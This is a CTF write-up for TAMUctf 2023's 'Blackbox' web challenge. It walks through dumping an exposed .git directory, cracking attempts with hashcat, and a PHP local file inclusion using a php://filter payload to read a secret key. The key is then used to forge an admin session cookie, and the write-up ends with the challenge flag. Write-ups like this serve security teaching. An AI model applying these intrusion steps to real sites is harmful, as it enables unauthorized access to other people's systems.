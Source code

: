 # Blackbox (TAMUctf 2023)

## Challenge

I took a survey to find our dev's least favorite type of web challenge. The results of my survey showed that blackbox web is by far the most frustrating type of web challenge. Let's see what your opinion of it is.

NOTE: flag format for this challenge is tamuctf{...}
[http://blackbox.tamuctf.com](http://blackbox.tamuctf.com/)

## Solution

### Basic Enumeration

First of all, by just taking a look at the site, we can see that it’s possible to access two pages by normal navigation:

- [http://blackbox.tamuctf.com/?page=home](http://blackbox.tamuctf.com/?page=home)
- [http://blackbox.tamuctf.com/?page=login](http://blackbox.tamuctf.com/?page=login)

By looking at the URLs, a classic LFI seems possible, let’s save this thought for later.

Looking at some HTTP response, we can confirm that the server uses PHP:

![Untitled](images/Untitled.png)

Accessing the login page, we’ve got the following cookie set:

```
auth_token=eyJ1c2VybmFtZSI6Imd1ZXN0IiwidXNlcl9rZXkiOiJkYWVjNzJiOTFmM2I0Yzc5IiwiYWRtaW4iOmZhbHNlfQ%3D%3D.6b2b186e8229347709a34e09c7c5b81f
```

If you pay attention to it, the value has 2 parts, the first one looks like a base64 ("%3D" is “=” URL encoded), and the second one looks like some kind of hash. Let’s confirm this two hypothesis:

```bash
echo eyJ1c2VybmFtZSI6Imd1ZXN0IiwidXNlcl9rZXkiOiJkYWVjNzJiOTFmM2I0Yzc5IiwiYWRtaW4iOmZhbHNlfQ== | base64 -d
{"username":"guest","user_key":"daec72b91f3b4c79","admin":false}
```

![Untitled](images/Untitled%201.png)

Alright, it’s a JSON object with user information base64 encoded followed by a MD5 hash (likely).

Looking at source code on browser, we find nothing interesting, just a normal form on login’s page that sends a POST request.

Enumerating robots.txt and .htaccess, we find out that it doesn’t have the second one, but the robots file is giving us a powerful hint:

```bash
User-agent: *
Disallow: /.git/
```

Great! Enumeration done, let’s begin the exploration.

### Dumping git information and analysing it

I used [git-dumper](https://github.com/arthaud/git-dumper) to download all the information present in [http://blackbox.tamuctf.com/.git](http://blackbox.tamuctf.com/.git):

```bash
git-dumper http://blackbox.tamuctf.com/.git .
```

By doing that, we discover that it has source code, transforming this into a whitebox challenge after all.

We just have one commit, so there is no information overwritten between commits.

![Untitled](images/Untitled%202.png)

Exploring the files, he find so much important information:

- **config.php** is on .gitignore, so we can’t see the source of this specific file right now
- There is an **admin.php** file that includes our desired flag
- In **util.php** we have the core logic of the back end, we can see important functions like **try_auth**, **generate_admin_token** and **is_admin**, for example.
- There is an sqlite3 database file in **sqlite/site-data.db**

First, let’s take a look into this sqlite database, that certainly draw my attention.

![Untitled](images/Untitled%203.png)

Great, so we have 1 entry in the users table, and it’s an admin account!

```
username: admin
password hash: 834503d694716c01c31a6248821764b07d5d36ff592f0c7c96874e021e907fe0
key: 26ceb685f46e6d22
```

This gadget in util.php tell us that this password is SHA-256 encrypted:

```php
function try_auth(string $username, string $password) {
  $hash_password = hash('sha256', $password);
  return db_login($username, $hash_password)->fetchArray();
}
```

It’s possible to try bruteforcing into this account. Even though I think that it's not intended to solve using this method, I keep the following commands running just in case, while I was searching for other hints.

```bash
hashcat -a 0 -m 1400 834503d694716c01c31a6248821764b07d5d36ff592f0c7c96874e021e907fe0 /usr/share/wordlists/rockyou.txt
hashcat -a 3 -m 1400 834503d694716c01c31a6248821764b07d5d36ff592f0c7c96874e021e907fe0
```

Spoiler: I didn’t break the hash.

Next thing to do is figure out how the cookie **auth_token** is made, so we can forge our own admin session :)

### Forging the first part of admin's auth_token

Alright, remember that the base64 object was:

```json
{"username":"guest","user_key":"daec72b91f3b4c79","admin":false}
```

With the new pieces of information we’ve got, we can make it into:

```json
{"username":"admin","user_key":"26ceb685f46e6d22","admin":true}
eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9rZXkiOiIyNmNlYjY4NWY0NmU2ZDIyIiwiYWRtaW4iOnRydWV9
```

However, trying to set a new cookie with this base64 encoded, with the subsequential hash unmodified doesn’t do the job unfortunately.

### Forging the second part of admin's auth_token

Reading again the util.php, this function tells us how to do it:

```php
function generate_token(array $data) {
  $b64json = base64_encode(json_encode($data));
  $hmac = hash('md5', SECRET_KEY . $b64json);

  return $b64json . '.' . $hmac;
}
```

Basically, the second part of the cookie is indeed a MD5 hash, and it’s composed by the md5sum of the base64 that we’ve just made plus a salt on the beginning (a **SECRET_KEY**, that we can’t find hardcoded in the files we have).

Ok, the next step is find out this SECRET_KEY somehow. 

If you rewind, there is one more file in this project, that we can’t see, and it is the **config.php**. Knowing that, I immediately tried some way to exploit the possible LFI on [http://blackbox.tamuctf.com/?page=](http://blackbox.tamuctf.com/?page=). Let’s verify on **index.php** code:

```php
if(isset($_GET['page'])) {
  $resource = $_GET['page'];
  include($_GET['page'] . '.php');
} else {
  include('home.php');
}
```

We have this include function, that is indeed vulnerable to LFI attacks. Note that it’s concatenating .php at the end, so it’s restricting what we can do.

First I tried [http://blackbox.tamuctf.com/?page=config](http://blackbox.tamuctf.com/?page=config), but it’s no use. At least by doing that we discover that our desired constant is present on the file.

![Untitled](images/Untitled%204.png)

So let’s try php filters with the path it was giving to us.

```
php://filter/convert.base64-encode/resource=file:///var/www/html/config
```

![Untitled](images/Untitled%205.png)

After decoding:

```php
<?php
const APP_NAME = 'Blackbox';
const INCLUDE_DIR = './templates/';
const DB_FILE = '../sqlite/site-data.db';
const SECRET_KEY = 'JYOFGX6w5ylmYXyHuMM2Rm7neHXLrBd2V0f5No3NlP8';
?>
```

Excelent! Finally we can forge the cookie’s hash.

- Concatenating the secret key with the base64:

```php
JYOFGX6w5ylmYXyHuMM2Rm7neHXLrBd2V0f5No3NlP8eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9rZXkiOiIyNmNlYjY4NWY0NmU2ZDIyIiwiYWRtaW4iOnRydWV9
```

- Calculating it’s md5:

```
58fed7114a165282749650cf5458d31f
```

- Merging everything:

```
auth_token=eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9rZXkiOiIyNmNlYjY4NWY0NmU2ZDIyIiwiYWRtaW4iOnRydWV9.58fed7114a165282749650cf5458d31f
```

- Updating the cookie and refreshing the login page:

![Untitled](images/Untitled%206.png)

We are redirected to admin’s page.

![Untitled](images/Untitled%207.png)

<aside>
⛳ The flag: tamuctf{my_f4v0rit4_7yp3_0f_w3b_ch4113ng3}

</aside>